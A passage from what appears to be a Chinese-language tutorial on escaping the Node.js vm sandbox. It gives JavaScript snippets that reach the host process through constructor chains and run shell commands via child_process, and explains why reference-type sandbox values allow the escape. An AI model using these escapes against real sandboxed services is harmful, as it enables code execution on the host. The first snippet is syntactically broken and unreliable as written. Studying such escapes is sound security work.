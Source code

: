 ```js
const vm = require("vm");
const y = `this.toString.constructor("return process")()`;
console.log(vm.runInNewContext(y)).mainModule.require("child_process").execSync("whoami").toString());
```

回过头来再研究这个函数：`vm.runInContext(script, context)`，不难发现前文所举的例子都是忽略context，只提供script。实际上，在忽略context的情况下，Node.js会自己创建一个空的上下文环境`{}`，显而易见地，script中的`this`直接代指这个空的上下文环境。

在下文这个例子中：

```js
const vm = require('vm');
const script = `m + n + this.m`;
const sandbox = { m: 1, n: 2 };
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log(res)
```

`vm.createContext()` 会对传入的 `sandbox` 进行特殊处理：让 `sandbox` 成为一个全局作用域容器，脚本执行时的 `this` 会指向这个对象；返回处理后的 `context` 对象——即被包装后的 `sandbox`，二者引用相同，修改 `context` 会同步影响 `sandbox`。

上述代码的执行结果是

```js
4
```

显而易见地，`this.m`指向`sandbox`，这意味着我们虽然可以通过直接调用`this`来获取`Function`构造函数，但不可以使用`this.m`来获取，如下的代码可以正常运行并得到结果：

```js
const vm = require('vm');
const script = `(() => {
    const esc = this.constructor.constructor("return process")();
    return esc.mainModule.require('child_process').execSync('whoami').toString();
    })()`;
const sandbox = { m: 1, n: 2 };
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log(res)
```

然而，如果将代码改为：

```js
const script = `(() => {
    const esc = this.m.constructor.constructor("return process")();
    return esc.mainModule.require('child_process').execSync('whoami').toString();
    })()`;
```

则不能实现。原因是`m`,`n`是基本数据类型而不是引用数据类型，如此进行的是值传递，无法拿到沙箱外部的引用。如果将`m`,`n`更改为引用数据类型类型，则可以执行：

```js
const vm = require('vm');
const script = `(() => {
    const esc = this.m.constructor.constructor("return process")();
    return esc.mainModule.require('child_process').execSync('whoami').toString();
    })()`;
const sandbox = { m: [], n: {} };
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log(res)
```
